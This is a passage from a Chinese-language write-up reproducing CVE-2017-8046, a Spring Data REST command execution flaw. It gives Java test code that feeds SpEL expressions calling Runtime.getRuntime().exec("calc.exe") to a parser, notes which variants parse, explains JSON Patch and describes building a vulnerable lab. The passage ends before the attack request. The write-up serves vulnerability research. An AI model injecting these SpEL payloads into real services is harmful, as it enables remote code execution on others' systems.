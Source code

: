 ```

        //Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\").a");//success
        //Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\").1");//SpelParseException
        //Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\").");//SpelParseException

        //Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")/a");//success
        //Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")/1");//success
        Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")/");//SpelParseException
        Object value = exp.getValue();
        System.out.println(value);
        
        exp.setValue(new Person(),"111");//为了测试set方法对“尾巴”的需求
    }
}
```

![image.png](img/CVE-2017-8046 Spring Data REST命令执行漏洞/1596166016284-2934bad6-d50f-453e-b6be-fe318958d70b.png)

### 关于JSON Patch



JSON Patch 就是以JSON格式来描述一个对JSON文档（到了web后端，可能是一个对象）的操作，操作包括【增、删、改、移动、复制、测试】



可以在 http://jsonpatch.com/ 上进一步了解。

## 漏洞复现

### 环境搭建

首先克隆如下项目到本地

```
git clone https://github.com/spring-guides/gs-accessing-data-rest.git
```

然后使用IDE打开其中的complete项目，并修改pom.xml中的spring-boot-starter-parent版本为1.5.6.RELEASE（存在漏洞的版本）。运行 src\main\java\com\example\accessingdatarest\AccessingDataRestApplication.java 启动web程序。



先创建一个用户，需要使用POST方法+JSON格式

![image.png](img/CVE-2017-8046 Spring Data REST命令执行漏洞/1596075399691-5ac5ffe9-2e09-4abf-9d3e-8588562bea43.png)

使用PATCH方法修改一个用户的信息，这有助于我们理解JSON PATCH。

![image.png](img/CVE-2017-8046 Spring Data REST命令执行漏洞/1596076066449-4377031d-d725-4db1-bd2e-206f703c3576.png)
